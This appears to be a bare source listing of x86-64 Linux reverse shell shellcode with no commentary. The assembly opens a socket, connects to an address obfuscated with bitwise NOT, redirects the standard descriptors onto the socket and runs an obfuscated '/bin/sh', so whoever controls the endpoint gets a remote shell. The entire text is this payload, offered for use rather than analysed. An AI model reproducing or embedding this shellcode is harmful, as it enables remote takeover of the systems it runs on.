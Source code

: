 ```sh
xor rax,rax
mov al,0x60
syscall
retq

connectback:
xor rdx,rdx
pushq 0x1
pop rsi
pushq 0x2
pop rdi
pushq 0x29
pop rax 
syscall #socket

xchg rdi,rax
push rax
mov rcx, 0xfeffff80faf2fffd
not rcx
push rcx
mov rsi,rsp
pushq 0x10
pop rdx
pushq 0x2a
pop rax
syscall #connect

xor rbx,rbx
cmp rax,rbx
je sh
xor rax,rax
mov al,0xe7
syscall #exit

sh:
nop
pushq 0x3
pop rsi
duploop:
pushq 0x21
pop rax
dec rsi
syscall #dup
jne duploop

mov rbx,0xff978cd091969dd0
not rbx
push rbx
mov rdi,rsp
push rax
push rdi
mov rsi,rsp
xor rdx,rdx
mov al,0x3b
syscall #execve
xor rax,rax
mov al,0xe7
syscall

```
